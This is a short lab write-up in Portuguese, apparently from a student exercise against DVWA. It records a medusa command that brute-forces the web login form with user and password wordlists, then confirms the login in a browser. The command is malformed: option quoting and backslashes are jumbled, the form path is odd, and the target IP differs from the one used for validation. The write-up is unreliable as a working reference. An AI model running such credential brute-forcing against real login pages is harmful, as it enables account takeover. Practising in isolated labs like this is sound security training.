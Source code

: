 ## Execução e comando usado

**Resumo do que foi feito:**  
Analisei o formulário via *Inspecionar (DevTools)* para identificar os nomes dos campos (`username`, `password`) e a string que indica falha de login (ex.: `"Login failed"`). Em seguida executei força‑bruta com **medusa** usando duas wordlists (usuários e senhas).

**Comando:**
```bash
medusa -h 192.168.56.102 -U wordlists/web-users.txt -P wordlists/web-pass.txt \
  -M http \ -m "POST:192.168.56.102/dvwa/login.php/index.php \ -m FORM:username=^USER^&password=^PASS^&Login=Login" \ -m :"Fail=Login failed" -T 6
```

## Validação

Acessei http://192.168.56.101/dvwa/ no navegador e efetuei login com os dados fornecidos pelo medusa.

Salvei o request HTTP que confirmou o login em scans/dvwa-request.txt (copiado do DevTools → Network → request payload).
